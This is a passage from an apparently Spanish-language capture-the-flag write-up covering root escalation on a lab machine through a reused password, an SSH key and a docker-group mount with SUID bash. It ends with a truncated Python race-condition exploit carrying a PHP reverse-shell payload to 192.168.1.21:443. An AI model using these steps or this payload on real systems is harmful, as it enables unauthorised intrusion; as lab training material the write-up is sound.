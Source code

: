 Por lo que si intentamos migrar al usuario *root* con esta contraseña, podemos hacerlo:
![[Pasted image 20240821215436.png]]

Y si accedemos al directorio `/root` podemos ver la segunda *flag*:
![[Pasted image 20240821215600.png]]

Si miramos el archivo `/root/.ssh/id_rsa.pub` podemos ver lo siguiente:
![[Pasted image 20240821221636.png]]

Se trata de una "id_rsa" de la máquina víctima para el usuario admin por lo que si intentamos conectarnos a la máquina víctima por ssh conseguimos acceso:
![[Pasted image 20240821221810.png]]

Y podemos visualizar la tercera *flag*:
![[Pasted image 20240821221857.png]]

Si miramos los grupos del usuario admin vemos que pertenece al grupo docker:
![[Pasted image 20240821222144.png]]

Por lo que podemos crear un contenedor que contenga montado la raíz del sistema para ver archivos de los cuales no tenemos capacidad en un principio. Primeramente hacemos un pull de la imagen de ubuntu:
![[Pasted image 20240821223055.png]]

Después creamos un contenedor con la raíz del sistema montada en `/mnt`:
![[Pasted image 20240821223139.png]]

Nos conectamos al contenedor con una bash:
![[Pasted image 20240821223221.png]]

Y si accedemos al directorio `/mnt` del contenedor podemos ver todo el sistema:
![[Pasted image 20240821223303.png]]

Por tanto, podemos añadirle el permiso SUID a la bash:
![[Pasted image 20240821224436.png]]

Así que si salimos del contenedor y ejecutamos "bash -p" obtenemos una bash como root:
![[Pasted image 20240821224528.png]]

Y podemos ver la *flag* final que se encuentra en el directorio `/root`:
![[Pasted image 20240821224613.png]]


## Python exploit Race Condition
```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.1.21/443 0>&1'"); ?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="cmd.php"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
```